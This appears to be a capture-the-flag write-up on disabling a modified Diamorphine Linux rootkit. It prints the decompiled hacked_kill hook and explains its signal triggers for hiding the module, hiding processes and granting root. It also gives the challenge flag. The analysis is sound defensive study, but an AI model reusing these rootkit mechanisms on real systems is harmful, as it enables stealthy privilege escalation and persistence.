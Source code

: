 I immediately notice the README provided with the injected library. I decide to search for **“Diamorphine github”** and I find [Diamorphine](https://github.com/m0nad/Diamorphine).

There I also see the instructions for shutdown. I connect to the instance with:

```bash
nc -nv 94.237.59.174 58293
```

and try the shutdown commands:

```bash
kill -63 0
rmmod diamorphine
```

but it crashes with `kill -63 0`, so the attacker probably modified the code. I open it in **Binary Ninja** to look for the killswitch.

I find it here:

```
00000280  int64_t hacked_kill()

00000280      void* rdi_6 = __fentry__()
0000028b      int32_t rax = (*(rdi_6 + 0x68)).d
0000028b      
00000296      if (rax == 0x2e)
00000348          if (module_hidden != 0)
0000034a              uint64_t module_previous_1 = module_previous
00000354              void* rdx_5 = *module_previous_1
00000357              *(rdx_5 + 8) = 0x10d8
0000035f              data_10d8 = rdx_5
00000368              data_10e0 = module_previous_1
0000036f              module_hidden = 0
00000376              *module_previous_1 = 0x10d8
00000385              return __x86_return_thunk() __tailcall
00000385          
000003ad          uint64_t rax_15 = data_10e0
000003b4          void* rdx_8 = data_10d8
000003be          *(rdx_8 + 8) = rax_15
000003c2          module_previous = rax_15
000003c9          *rax_15 = rdx_8
000003d6          data_10d8 = -0x2152ffffffffff00
000003e1          data_10e0 = -0x2152fffffffffede
000003ed          module_hidden = 1
00000296      else if (rax == 0x40)
000002fe          int64_t rax_8 = prepare_creds()
000002fe          
0000030c          if (rax_8 != 0)
0000030e              __builtin_memset(s: rax_8 + 4, c: 0, n: 0x20)
0000032e              commit_creds(rax_8)
0000033b              return __x86_return_thunk() __tailcall
0000029f      else
000002a1          void* const rdx_1 = init_task
000002a1          
000002ab          if (rax == 0x1f)
000002d5              while (true)
000002d5                  void* rax_5 = *(rdx_1 + 0x8b8)
000002dc                  rdx_1 = rax_5 - 0x8b8
000002dc                  
000002e9                  if (rax_5 == (init_task + 0x8b8))
000002e9                      break
000002e9                  
000002cf                  if ((*(rdi_6 + 0x70)).d == *(rax_5 + 0x108))
0000038d                      if (rdx_1 == 0)
0000038d                          break
0000038d                      
00000393                      *(rax_5 - 0x88c) ^= 0x10000000
000003a8                      return __x86_return_thunk() __tailcall
000003a8              
000002f9              return __x86_return_thunk() __tailcall
000002f9          
000002ad          orig_kill
000002b4          __x86_indirect_thunk_rax()
000002b4      
000002c4      return __x86_return_thunk() __tailcall
```

## Analysis

```
00000296      if (rax == 0x2e)
00000348          if (module_hidden != 0)
0000034a              uint64_t module_previous_1 = module_previous
00000354              void* rdx_5 = *module_previous_1
00000357              *(rdx_5 + 8) = 0x10d8
0000035f              data_10d8 = rdx_5
00000368              data_10e0 = module_previous_1
0000036f              module_hidden = 0
00000376              *module_previous_1 = 0x10d8
00000385              return __x86_return_thunk() __tailcall
00000385          
000003ad          uint64_t rax_15 = data_10e0
000003b4          void* rdx_8 = data_10d8
000003be          *(rdx_8 + 8) = rax_15
000003c2          module_previous = rax_15
000003c9          *rax_15 = rdx_8
000003d6          data_10d8 = -0x2152ffffffffff00
000003e1          data_10e0 = -0x2152fffffffffede
000003ed          module_hidden = 1
```

This block corresponds to toggling the module visibility (**hide/unhide the kernel module**) when calling:

```
kill -46 0
```

---

```
00000296      else if (rax == 0x40)
000002fe          int64_t rax_8 = prepare_creds()
000002fe          
0000030c          if (rax_8 != 0)
0000030e              __builtin_memset(s: rax_8 + 4, c: 0, n: 0x20)
0000032e              commit_creds(rax_8)
0000033b              return __x86_return_thunk() __tailcall
```

This block corresponds to **privilege escalation to root** via:

```
kill -64 0
```

---

```
000002ab          if (rax == 0x1f)
000002d5              while (true)
000002d5                  void* rax_5 = *(rdx_1 + 0x8b8)
000002dc                  rdx_1 = rax_5 - 0x8b8
000002dc                  
000002e9                  if (rax_5 == (init_task + 0x8b8))
000002e9                      break
000002e9                  
000002cf                  if ((*(rdi_6 + 0x70)).d == *(rax_5 + 0x108))
0000038d                      if (rdx_1 == 0)
0000038d                          break
0000038d                      
00000393                      *(rax_5 - 0x88c) ^= 0x10000000
000003a8                      return __x86_return_thunk() __tailcall
000003a8              
000002f9              return __x86_return_thunk() __tailcall
000002f9          
000002ad          orig_kill
000002b4          __x86_indirect_thunk_rax()
```

This block corresponds to **hiding/unhiding a specific process** via:

```
kill -31 <pid>
```

### Plan of Action

1. **Escalate privileges to root**:

```bash
kill -64 0
```

2. **Make the module visible again**:

```bash
kill -46 0
```

3. **Unload the malicious module**:

```bash
rmmod diamorphine
```

You can check if it’s gone with:

```bash
lsmod | grep diamorphine
```

which should return nothing.

### Final Step

Search for the flag:

```bash
find / -name flag.txt 2>/dev/null
```

and I find it at:

```
/opt/psychosis/flag.txt
```

```
HTB{N0w_Y0u_C4n_S33_m3_4nd_th3_r00tk1t_h4s_b33n_sUcc3ssfully_d3f34t3d!!}
```